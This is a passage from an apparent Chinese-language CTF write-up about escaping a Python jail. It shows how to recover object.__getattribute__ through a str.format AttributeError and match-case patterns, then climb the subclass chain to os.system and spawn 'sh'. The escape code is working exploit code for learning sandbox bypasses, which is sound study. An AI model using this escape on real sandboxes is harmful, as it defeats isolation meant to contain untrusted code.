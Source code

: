 本题的 `__builtins__` 里没有 object 类了，无法用上题的办法，怎么办呢？还有一种办法来访问属性，在[国外博客](https://shirajuki.js.org/blog/pyjail-cheatsheet/)的 `getting attributes` 看见的代码，加点注释放在下面：

```python
try:
    "{0.__doc__.lol}".format(())
    # 尝试格式化传入的第一个参数的 __doc__ 属性的 lol 属性
    # 但 lol 属性不存在，因此会引发 AttributeError
except Exception as e:
    a = e.obj
    print(a) # 拿到 ().__doc__
```

但要实现这个，我们得拿到 format 方法和 obj 方法。你猜怎么着？这两个方法对应的实例所在的类在 `__builtins__` 里都有！结合上题：

```python
try:
    s = "{0.__doc__.lol}"
    match s:
        case str(format=val):
            val(obj)
except Exception as e:
    match e:
        case Exception(obj=val):
            print(val) # 拿到 obj.__doc__
```

然后我们重写，不拿 `obj.__doc__`，而是拿一个访问属性的方法：

```python
try:
    s = "{0.__class__.__base__.__getattribute__.x}"
    match s:
        case str(format=val): # type: ignore
            val(114514)
except Exception as e:
    match e:
        case Exception(obj=val):
            myGetattr = val # 拿到 object 类的 __getattribute__ 函数

# 之后便可以继续栈帧逃逸，或者直接类继承关系逃逸，这里我用继承关系逃逸
[myGetattr(myGetattr(x,'__init__'), '__globals__') for x in myGetattr(myGetattr(myGetattr('', '__class__'), '__base__'), '__subclasses__')() if myGetattr(x, '__name__') == '_wrap_close'][0]["system"]("sh")

# 也可以不用列表推导式
# for x in myGetattr(myGetattr(myGetattr('', '__class__'), '__base__'), '__subclasses__')():
#     if myGetattr(x, '__name__') == '_wrap_close':
#         globals_dict = myGetattr(myGetattr(x, '__init__'), '__globals__')
#         globals_dict['system']('sh')
#         break
```

#### Rush
